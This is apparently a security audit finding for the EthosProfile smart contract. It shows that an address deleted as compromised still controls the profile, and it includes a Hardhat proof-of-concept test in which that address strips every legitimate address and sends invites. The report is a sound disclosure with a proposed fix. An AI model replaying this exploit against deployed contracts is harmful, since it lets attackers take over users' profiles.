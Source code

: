 Rare Berry Swan

Medium

# Compromised Address Retains Control of Profile in EthosProfile Contract

### Summary

In EthosProfile contract a compromised account can still perform legitimate profile actions after being deleted. This allows the compromised address to manipulate profile invitations, delete other legitimate addresses, add reviews and other actions they shouldn't be allowed.

### Root Cause

In EthosProfile.sol, the deleteAddressAtIndex function marks an address as compromised without fully revoking its control over the profile, allowing it to continue making legitimate actions.
When user deletes a compromised address, `isAddressCompromised` is updated and address is removed from  `profiles[profileId].addresses` array. But when the compromised address  use ethos contracts there is no check for this updated values only `profileIdByAddress` is checked if the profile is legitimate. This allows compromised account to retain its control.

```solidity
  function deleteAddressAtIndex(uint256 addressIndex) external whenNotPaused {
    uint256 profileId = profileIdByAddress[msg.sender];

    //***

    isAddressCompromised[addressStr] = true;
    _addressShouldDifferFromSender(addressStr);

    _deleteAddressAtIndexFromArray(addressIndex, addresses, removedAddresses);
```
https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosProfile.sol#L415


### Internal pre-conditions

1. A user must have registered an address with their profile ID.
2. The user must mark an address as compromised and call deleteAddressAtIndex to delete the address.
3. The deleted compromised address retain its control privileges.

### External pre-conditions

_No response_

### Attack Path

_No response_

### Impact

Despite deletion, the compromised address retains privileges, allowing it to:
- Delete other legitimate addresses from the profile.
- Invite arbitrary or empty addresses, filling the invite limit and preventing legitimate invitations.
- Voting or adding reviews 


### PoC

```js
    it('AddressCompromised can still controll', async () => {
      const { ethosProfile, ADMIN, PROFILE_CREATOR_0, EXPECTED_SIGNER, OTHER_0, OTHER_1, OWNER,  } =
        await loadFixture(deployFixture);

      const profileId = String(2);
      let rand = '123';
      let signature = await common.signatureForRegisterAddress(
        OTHER_0.address,
        profileId,
        rand,
        EXPECTED_SIGNER,
      );

      await ethosProfile.connect(OWNER).inviteAddress(PROFILE_CREATOR_0.address);

      await ethosProfile.connect(PROFILE_CREATOR_0).createProfile(1);

      await ethosProfile.connect(ADMIN).addInvites(PROFILE_CREATOR_0.address, 10);

      await ethosProfile
        .connect(PROFILE_CREATOR_0)
        .registerAddress(OTHER_0.address, profileId, rand, signature);

      rand = '456';
      signature = await common.signatureForRegisterAddress(
        OTHER_1.address,
        profileId,
        rand,
        EXPECTED_SIGNER,
      );
      await ethosProfile
        .connect(PROFILE_CREATOR_0)
        .registerAddress(OTHER_1.address, profileId, rand, signature);

      let addresses = await ethosProfile.addressesForProfile(2);
      expect(addresses.length).to.be.equal(3, 'should be 3 addresses');

      // delete address at index 2
      await ethosProfile.connect(PROFILE_CREATOR_0).deleteAddressAtIndex(2);

      addresses = await ethosProfile.addressesForProfile(2);
      expect(addresses.length).to.be.equal(2, 'should be 2 addresses');
      expect(addresses[0]).to.be.equal(PROFILE_CREATOR_0.address, 'wrong address[0]');
      expect(addresses[1]).to.be.equal(OTHER_0.address, 'wrong address[1]');
      let isCompromised = await ethosProfile.isAddressCompromised(OTHER_1);
      expect(isCompromised).to.be.equal(true, 'wrong address[1]');

      // OTHER_1 is comprimised and removed but can still control the account
      // @audit can remove other address
      await ethosProfile.connect(OTHER_1).deleteAddressAtIndex(0);
      await ethosProfile.connect(OTHER_1).deleteAddressAtIndex(0);
      addresses = await ethosProfile.addressesForProfile(2);

      expect(addresses.length).to.be.equal(0, 'should be 0 addresses');
      //@audit can invite new users
      await ethosProfile.connect(OTHER_1).inviteAddress(EXPECTED_SIGNER);

    });
```
### Mitigation

Either compromised address should be deleted from  `profileIdByAddress`  or there should be checks compromised address check for profile actions